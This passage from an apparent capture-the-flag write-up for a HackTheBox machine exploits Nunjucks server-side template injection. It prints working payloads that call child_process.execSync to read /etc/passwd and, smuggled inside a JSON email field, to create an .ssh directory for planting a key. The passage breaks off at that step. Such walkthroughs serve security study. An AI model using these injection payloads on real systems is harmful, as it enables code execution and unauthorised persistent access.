 ![image-20211022142458105](https://0xdfimages.gitlab.io/img/image-20211022142458105.png)

When it matches the box name, that’s a good hint! Googling for “nunchucks
template injection” led to [this
post](http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-
template-engine). It shows how to build different payloads, but the last one
is the most interesting as it shows code execution:

    
    
    {{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}
    

I’ll add backslashes to escape the double quotes, and add that payload to my
Repeater window. It gets `/etc/passwd`:

[![image-20211022142823710](https://0xdfimages.gitlab.io/img/image-20211022142823710.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20211022142823710.png)

The code execution is happening as the david user (when given `id` as the
command):

![image-20211022143839505](https://0xdfimages.gitlab.io/img/image-20211022143839505.png)

### OS Exploration

I could go right for a reverse shell, but I might check if I can grab
`user.txt` first.

Running `ls -l /home` shows only one user, `david`:

[![image-20211022143025654](https://0xdfimages.gitlab.io/img/image-20211022143025654.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20211022143025654.png)

`user.txt` is in that directory:

[![image-20211022143101840](https://0xdfimages.gitlab.io/img/image-20211022143101840.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20211022143101840.png)

And I can grab it:

[![image-20211022143201046](https://0xdfimages.gitlab.io/img/image-20211022143201046.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20211022143201046.png)

### SSH Key

To get a shell, I’ll write my SSH key into `/home/david/.ssh/authorized_keys`.
First create the directory:

    
    
    {"email":"0xdf{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('mkdir /home/david/.ssh')\")()}}@htb.htb"}
    